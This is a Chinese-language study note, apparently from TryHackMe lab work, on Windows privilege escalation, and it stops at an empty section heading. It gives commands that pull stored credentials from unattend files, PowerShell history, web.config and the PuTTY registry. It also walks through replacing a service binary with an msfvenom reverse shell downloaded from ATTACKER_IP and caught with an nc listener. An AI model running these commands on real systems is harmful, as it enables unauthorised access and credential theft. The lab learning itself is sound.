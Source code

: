 ```yaml
---
{"dg-publish":true,"dg-path":"THM/windows提权.md","permalink":"/THM/windows提权/","title":"windows提权"}
---
```


```table-of-contents
```
# 用户

Windows系统主要有两类用户。
+ **管理员**
	+ 这些用户拥有最多的权限。他们可以更改任何系统配置参数并访问系统中的任何文件。
+ **标准用户**
	+ 这些用户可以访问计算机，但只能执行有限的任务。通常，这些用户无法对系统进行永久或重要的更改，并且仅限于他们的文件。

除此之外，您通常会听说操作系统在权限升级的情况下使用一些特殊的内置帐户：

+ **系统/本地系统**
	+ 操作系统用来执行内部任务的帐户。它可以完全访问主机上可用的所有文件和资源，**并且具有比管理员更高的权限**。
+ **本地服务**
	+ 用于以“最低”权限运行 Windows 服务的默认帐户。它将使用网络上的匿名连接。
+ **网络服务**
	+ 用于以“最低”权限运行 Windows 服务的默认帐户。它将使用计算机凭据通过网络进行身份验证。




# 敏感信息位置

## 无人值守的 Windows 安装
在大量主机上安装 Windows 时，管理员可以使用 Windows 部署服务，该服务允许通过网络将单个操作系统映像部署到多台主机。此类安装称为无人值守安装，因为它们不需要用户交互。此类安装需要使用管理员帐户来执行初始设置，该设置最终可能存储在计算机中的以下位置：

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

作为这些文件的一部分，您可能会遇到凭据：
```html
shell-session
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```


## Powershell 历史

每当用户使用 Powershell 运行命令时，它都会存储到一个文件中，该文件会保留过去的命令。这对于快速重复之前使用过的命令很有用。如果用户直接在 Powershell 命令行中运行包含密码的命令，则稍后可以在`cmd.exe`提示符下使用以下命令来检索该密码：

```shell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
上面的命令只能在 cmd.exe 中运行，因为 Powershell 不会将`%userprofile%`识别为环境变量。要从 Powershell 读取该文件，您必须将`%userprofile%`替换为`$Env:userprofile` 。



## 保存的 Windows 凭据
Windows 允许我们使用其他用户的凭据。此功能还提供了将这些凭据保存在系统上的选项。下面的命令将列出保存的凭据：

```shell
cmdkey /list
```

虽然您看不到实际的密码，但如果您发现任何值得尝试的凭据，您可以将它们与runas命令和/savecred选项一起使用，如下所示。
```shell
runas /savecred /user:admin(这个admin是用户名) cmd.exe
```

## IIS 配置

Internet 信息服务 (IIS) 是 Windows 安装上的默认 Web 服务器。 IIS 上网站的配置存储在名为`web.config`的文件中，并且可以存储数据库的密码或配置的身份验证机制。根据安装的 IIS 版本，我们可以在以下位置之一找到 web.config：

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```


## 从软件检索凭证：PuTTY
PuTTY 是 Windows 系统上常见的 SSH 客户端。用户不必每次都指定连接参数，而是可以存储会话，其中可以存储 IP、用户和其他配置以供以后使用。虽然 PuTTY 不允许用户存储其SSH密码，但它将存储包含明文身份验证凭据的代理配置。

要检索存储的代理凭据，您可以使用以下命令在以下注册表项下搜索 ProxyPassword：

```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

正如 putty 存储凭据一样，任何存储密码的软件，包括浏览器、电子邮件客户端、FTP 客户端、 SSH客户端、VNC 软件等，都将有方法恢复用户保存的任何密码



# 利用错误的服务配置

Windows 服务由**服务控制管理器**(SCM) 管理。
Windows 计算机上的每个服务都有一个关联的可执行文件，每当服务启动时，SCM 都会运行该可执行文件。
需要注意的是，服务可执行文件实现特殊功能以便能够与 SCM 通信，因此任何可执行文件都不能作为服务成功启动。每个服务还指定该服务将在其下运行的用户帐户。

+ 用`sc qc  <服务的实际名称> `来查看某个服务信息
+ 用`sc query`来查看所有服务



## 服务可执行文件的不正确权限

![Pasted image 20241117205023.png](/img/user/picture/Pasted%20image%2020241117205023.png)

可以看到有用户`svcusr1`执行`C:\PROGRA~2\SYSTEM~1\WService.exe`文件
查看文件权限：
![Pasted image 20241117205216.png](/img/user/picture/Pasted%20image%2020241117205216.png)
发现有修改权限（M），我么可以生成其他文件来覆盖他，

在攻击机上利用`msfvenom`来生成：
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```
之后用python开启web服务，来使受害机访问下载攻击文件：
```shell
python3 -m http.server 
```

```shell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

然后就可以将攻击文件进行替换：
```shell
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
//修改权限
```


在攻击机上监听等待即可
```shell
nc -lvp 4445
```



## 不正确路径(未加引号)

![Pasted image 20241117213924.png](/img/user/picture/Pasted%20image%2020241117213924.png)
看到有：
```
BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```

当 SCM 尝试执行关联的二进制文件时，就会出现问题。由于“Disk Sorter Enterprise”文件夹的名称上有空格，因此该命令变得不明确，并且 SCM 不知道您正在尝试执行以下哪一个：

+ 命令:`C:\MyPrograms\Disk.exe`
	+ 参数:`Sorter` `Enterprise\bin\disksrs.exe`
+ 命令:`C:\MyPrograms\Disk Sorter.exe`
	+ 参数:`Enterprise\bin\disksrs.exe`
+ 命令:`C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

还有，大多数文件写在`C:\Program Files`或`C:\Program Files (x86)`中，非特权用户无法写入
但是这里安装在`c:\MyPrograms`下。默认情况下，它继承`C:\`目录的权限，允许任何用户在其中创建文件和文件夹。

所以这里我们就可以将恶意文件修改为`C:\MyPrograms\Disk.exe`

## 不安全的服务权限








